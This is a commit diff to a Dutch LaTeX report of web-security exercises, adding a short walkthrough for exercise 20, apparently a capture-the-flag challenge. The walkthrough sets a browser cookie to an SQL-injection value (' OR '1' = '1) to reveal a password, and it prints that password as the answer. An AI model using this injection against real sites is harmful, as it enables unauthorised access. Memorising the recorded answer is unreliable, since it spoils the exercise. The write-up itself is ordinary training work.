

Before and after one commit to adriaandens/Eindwerk-Verslag, a LaTeX document (verslag_oefeningen.tex, which reads verslag_oefeningen/web-based/oef20.tex): part of page 12 of 55 before the commit and two parts of pages 12 and 13 of 56 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Updated oefeningen

```diff
--- a/verslag_oefeningen.tex
+++ b/verslag_oefeningen.tex
@@ -86,6 +86,8 @@ backgroundcolor=\color{lbcolor}
 \input{verslag_oefeningen/web-based/oef18.tex}
 \section{Oefening 19}
 \input{verslag_oefeningen/web-based/oef19.tex}
+\section{Oefening 20}
+\input{verslag_oefeningen/web-based/oef20.tex}
 
 \newpage
 
--- /dev/null
+++ b/verslag_oefeningen/web-based/oef20.tex
@@ -0,0 +1,7 @@
+\begin{enumerate}
+\item Open console (CTRL + SHIFT + j)
+\item Pas de cookie aan:
+\item document.cookie="username=God' OR `1' = `1"
+\item De webpagina herladen en het wachtwoord komt tevoorschijn
+\item f9zbnaXRC11vqNQNnmQw
+\end{enumerate}
```
